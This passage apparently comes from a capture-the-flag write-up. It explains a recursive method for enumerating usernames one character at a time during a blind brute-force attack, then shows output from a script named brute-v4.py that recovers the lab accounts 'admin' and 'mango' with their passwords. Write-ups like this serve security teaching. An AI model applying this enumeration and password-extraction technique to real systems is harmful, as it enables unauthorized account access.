 There are some differences here. With a password, once I find that the 4th character is “P”, there’s no need to try other characters. That’s not the case with usernames, as “administrator”, “admin”, and “adam” could all be users. 

To solve this, I’ll use recursion. The function takes the valid start of a username as the input and tries that input plus each character. For all that succeed, it calls the same function, passing in the start + the new character. If none of the characters succeed, that means that the passed in string must be the username.

```bash
python3 brute-v4.py
Starting brute-force attack...
[+] Found Username Initials with: a                   
[+] Found Username Initials with: m                   
[+] Found user: ad                                
[+] Found user: adm                        
[+] Found user: admi                        
[+] Found user: admin                        
[+] User found: admin                         
[+] Found password for admin: t9KcS3>!0B#2        
[+] Found user: ma                        
[+] Found user: man                        
[+] Found user: mang                        
[+] Found user: mango                        
[+] User found: mango                         
[+] Found password for mango: h3mXK8RhU~f{]f5H
```